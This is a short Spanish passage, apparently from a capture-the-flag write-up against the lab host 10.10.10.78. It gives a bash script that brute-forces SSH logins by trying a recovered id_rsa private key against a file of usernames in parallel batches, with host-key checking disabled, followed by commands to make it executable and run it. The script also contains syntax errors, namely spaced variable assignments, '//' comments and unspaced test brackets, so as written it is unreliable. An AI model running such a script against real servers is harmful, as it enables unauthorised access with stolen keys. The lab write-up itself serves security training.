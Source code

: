 ``` bash
	
	#!/bin/bash
	
	trap ctrl_c INT
	
	function ctrl_c(){
		pkill ssh
		exit 0
	}
	
	counter = 0
	top = 30 		// número de hilos para no saturar el servidor
	
	cat $1 | while read username; do
		ssh -i id_rsa $username@10.10.10.78 -o StrictHostkeyChecking=no -ct 2>/dev/null &
		let counter += 1
		if ["$(echo $counter)" == "$top"]; then
			wait; sleep 0.5
			let top += 30
		fi
	done
		
```

Se le da permisos de ejecución al fichero:
`chmod +x brute_force_id_rsa.ssh`
Ejecución, donde "users" debe ser un fichero con los usuarios:
`./brute_force_id_rsa.ssh users`